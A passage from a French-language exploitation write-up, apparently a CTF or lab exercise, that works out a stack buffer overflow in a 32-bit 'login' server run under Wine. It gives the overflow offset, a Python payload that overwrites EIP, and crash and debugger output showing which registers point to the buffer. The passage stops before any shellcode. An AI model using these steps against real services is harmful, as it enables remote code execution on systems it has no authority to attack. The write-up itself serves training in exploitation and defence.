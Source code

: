 ```nasm
0x004018ed      leave
0x004018ee      ret
```

On peut lire en commentaire qu'il y a une variable locate (ici `dest`) qui prend 1698 octets (0x6a2) dans la stack frame. Il faut ensuite compter 4 octets pour écraser EBP puis 4 autres pour écraser EIP.

Pour valider ça on peut envoyer la chaine suivante en Python (suivi d'un CRLF sans quoi le serveur continue d'attendre un input) vers le binaire en écoute que l'on aura nous aussi lancé avec [Wine](https://www.winehq.org/) :

```python
b"A" * 1698 + b"BBBB" + b"CCCC" + b"DDDD" * 16
```

 Une fenêtre de débogage de Wine apparait aussitôt, on s'empresse de regarder les détails :

```
Unhandled exception: page fault on read access to 0x43434343 in 32-bit code (0x43434343).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:0063 GS:006b
 EIP:43434343 ESP:0135fb08 EBP:42424242 EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0135f45e EBX:00000040 ECX:0135f45e EDX:00000000
 ESI:00000000 EDI:00000000
Stack dump:
0x0135fb08:  44444444 44444444 44444444 44444444
0x0135fb18:  44444444 44444444 44444444 44444444
0x0135fb28:  44444444 44444444 44444444 44444444
0x0135fb38:  44444444 44444444 44444444 44444444
0x0135fb48:  00000a0d 00000000 00000000 00000000
0x0135fb58:  00000000 00000000 00000000 00000000
Backtrace:
=>0 0x43434343 (0x42424242)
0x43434343: -- no code accessible --
Modules:
Module	Address			Debug info	Name (8 modules)
PE	00400000-00413000	Deferred        login
PE	62500000-62510000	Deferred        login_support
PE	6a280000-6a31c000	Deferred        msvcrt
PE	6d780000-6d7a7000	Deferred        ws2_32
PE	70b40000-70c04000	Deferred        ucrtbase
PE	7b000000-7b288000	Deferred        kernelbase
PE	7b600000-7b65a000	Deferred        kernel32
PE	7bc00000-7bc9c000	Deferred        ntdll
```

Il y a plusieurs particularités qui vont en notre faveur :

* ESP pointe sur les données juste après l'adresse de retour que l'on va écraser

* EAX et ECX pointent tous les deux sur le début de notre buffer dans la stack

On peut le voir à l'aide de winedbg qui est une copie (mais pas aussi bien) de gdb :

```
Wine-dbg>b *0x004018ee
Breakpoint 1 at 0x000000004018ee login+0x18ee
Wine-dbg>c
Stopped on breakpoint 1 at 0x000000004018ee login+0x18ee
Wine-dbg>x/i $eip
0x000000004018ee login+0x18ee: ret
Wine-dbg>x/s $eax
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
